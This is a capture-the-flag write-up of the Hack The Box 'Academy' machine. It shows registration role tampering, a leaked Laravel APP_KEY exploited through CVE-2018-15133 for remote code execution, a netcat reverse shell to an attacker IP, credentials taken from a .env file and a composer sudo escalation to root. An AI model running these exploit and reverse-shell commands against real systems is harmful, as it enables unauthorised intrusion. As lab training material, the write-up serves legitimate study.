 ```yaml
---
title:  "Hack The Box - Academy"
categories: [Laravel, Broken Authentication, cve-2018-15133, Composer]
tags: [Hackthebox, Infosec, Linux]
imageid: /assets/images/Academy/cover.png
---
```


![](/assets/images/Academy/cover.png)

## Portscan
---

```sql
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http?
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconaissance
---
like usual im gonna use whatweb command for definition a site

> whatweb http://$ip

```
http://10.10.10.215 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.215], RedirectLocation[http://academy.htb/]
http://academy.htb/ [302 Found] Country[INDONESIA][ID], HTTPServer[BigIP], IP[36.86.63.182], RedirectLocation[http://mercusuar.uzone.id]
http://mercusuar.uzone.id [200 OK] Bootstrap, Country[INDONESIA][ID], Frame, HTML5, HTTPServer[nginx], IP[36.86.63.180], JQuery[2.2.4], PHP[5.6.40], Script[text/javascript], Title[Mercusuar], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-Powered-By[PHP/5.6.40], X-XSS-Protection[1; mode=block], YouTube, nginx
```

as you can see we got new domain, added into host file then access it.

> http://academy.htb/

![](/assets/images/Academy/1.png)

found login.php and register.php

> http://academy.htb/login.php

![](/assets/images/Academy/2.png)


> http://academy.htb/register.php

![](/assets/images/Academy/3.png)

tried register and login with my account

```bash
unknown:1
```

![](/assets/images/Academy/4.png)

as you can see i able to login, but that is something wronng im not login as unkwon but egre55 as creator.

im gonna doing scanning directory for finding something important using dirb.

> dirb http://academy.htb/

![](/assets/images/Academy/9.png)

i found admin.php for admin panel, the mystakes is on register page.

here's my assumtion this site using role like if role = 0 you can register as user but if you register role = 1 you can login as admin.
it's clearly when im check the source code on register.php

![](/assets/images/Academy/5.png)

so im back again on register.php for register as admin with role 1, you doing this with burpsuite or developer tools then login on admin page as admin with password 1

![](/assets/images/Academy/6.png)

> http://academy.htb/admin-page.php

![](/assets/images/Academy/7.png)

as you can see i logged as admin! YAY!

now i've got new subdomain again , added into host file

```
Fix issue with dev-staging-01.academy.htb
```

> http://dev-staging-01.academy.htb/

![](/assets/images/Academy/8.png)

this site based on laravel XD... similiar error

this error telling us crutial information

```php
APP_NAME 	
"Laravel"

APP_ENV 	
"local"

APP_KEY 	
"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```

im googling about this APP key for laravel and found this [CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133) and poc code in [here](https://github.com/aljavier/exploit_laravel_cve-2018-15133)

we can easily to exploit as long as we have app key

`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c pwd`

![](/assets/images/Academy/10.png)

nice RCE , now it's time to revershell

`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.128 9000 >/tmp/f'`

and start listner

`rlwrap nc -lnvp 9000`

![](/assets/images/Academy/11.png)

upgrade shell with following command :

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

i found user.txt on dir /home/cry0l1t3, for password carolite i found that in /var/www/html/academy/.env this file contains information about the site.

![](/assets/images/Academy/13.png)

```bash
mySup3rP4s5w0rd!!
```

login via ssh for stable shell and grab user.txt

![](/assets/images/Academy/15.png)

there is no sudo -l command with this user, and already check the os using command lsb_release with newest os until linpeas.sh show me the way
 
![](/assets/images/Academy/16.png)

`su mrb3n:mrb3n_Ac@d3my!`


## Privilege Escalation
---
for mrb3n user we can run command sudo -l for gain root access 


`sudo -l`

![](/assets/images/Academy/17.png)

we can take advantages of composer, execute this command below will lead you into root.

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

![](/assets/images/Academy/18.png)

and grab our root.txt

![](/assets/images/Academy/19.png)

### Referencess

```console
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp
https://netsec.ws/?p=337
https://gtfobins.github.io/gtfobins/composer/
```